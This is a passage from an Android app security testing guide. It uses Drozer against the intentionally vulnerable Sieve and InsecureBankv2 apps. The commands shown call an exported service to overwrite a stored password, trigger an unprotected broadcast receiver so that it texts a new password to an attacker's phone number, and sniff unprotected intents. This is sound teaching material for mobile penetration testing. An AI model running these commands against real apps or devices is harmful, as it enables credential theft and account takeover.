 Because this service is exported, you can use the module `app.service.send` to communicate with the service and change the password stored in the target application:

```text
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 6345 7452 1 --extra string com.mwr.example.sieve.PASSWORD "abcdabcdabcdabcd" --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 4
  arg1: 42
  arg2: 0
  Empty
```

#### Broadcast Receivers

Broadcasts can be enumerated via the Drozer module `app.broadcast.info`. The target package should be specified via the `-a` parameter:

```text
dz> run app.broadcast.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  com.android.insecurebankv2.MyBroadCastReceiver
    Permission: null
```

In the example app "Android Insecure Bank", one broadcast receiver is exported without requiring any permissions, indicating that we can formulate an intent to trigger the broadcast receiver. When testing broadcast receivers, you must also use static analysis to understand the functionality of the broadcast receiver, as we did before.

With the Drozer module `app.broadcast.send`, we can formulate an intent to trigger the broadcast and send the password to a phone number within our control:

```text
dz>  run app.broadcast.send --action theBroadcast --extra string phonenumber 07123456789 --extra string newpass 12345
```

This generates the following SMS:

```text
Updated Password from: SecretPassword@ to: 12345
```

**Sniffing Intents**

If an Android application broadcasts intents without setting a required permission or specifying the destination package, the intents can be monitored by any application that runs on the device.

To register a broadcast receiver to sniff intents, use the Drozer module `app.broadcast.sniff` and specify the action to monitor with the `--action` parameter:

```text
dz> run app.broadcast.sniff  --action theBroadcast
[*] Broadcast receiver registered to sniff matching intents
[*] Output is updated once a second. Press Control+C to exit.

Action: theBroadcast
Raw: Intent { act=theBroadcast flg=0x10 (has extras) }
Extra: phonenumber=07123456789 (java.lang.String)
Extra: newpass=12345 (java.lang.String)`
```

